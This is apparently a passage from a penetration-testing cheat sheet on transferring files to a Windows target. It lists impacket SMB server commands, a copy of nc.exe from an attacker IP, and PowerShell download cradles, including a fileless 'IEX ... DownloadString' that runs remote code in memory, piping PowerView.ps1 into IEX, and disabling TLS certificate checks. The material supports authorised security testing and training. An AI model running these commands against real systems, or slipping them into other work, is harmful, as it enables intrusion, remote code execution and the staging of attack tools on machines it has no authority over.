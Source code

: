 * `sudo impacket-smbserver share -smb2support /tmp/smbshare`

#### Copy file from server (cmd)

* `copy \\192.168.220.133\share\nc.exe`

Newer versions of windows block unauthenticated SMB shares, we can create one with user and pass:

* `sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test`

#### Mount SMB share with u/p

* `net use n: \\192.168.220.133\share /user:test test`

### `Powershell`

#### PowerShell DownloadFile Method

* `(New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')`
* `(New-Object Net.WebClient).DownloadFileAsync('<Target File URL>','<Output File Name>')`

#### PowerShell DownloadString - Fileless Method

* runs from memory
* `IEX (New-Object Net.WebClient).DownloadString('<Target File URL>')`

#### PowerShell Invoke-WebRequest

* `Invoke-WebRequest <Target File URL> -OutFile <Output File Name>`

[Powershell download cradles](https://gist.github.com/HarmJ0y/bb48307ffa663256e239)

Occasionally IE first-launch has not run (IE engine not available), bypass with `-UseBasicParsing`

* `Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | IEX`

TLS Error

* `[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}`
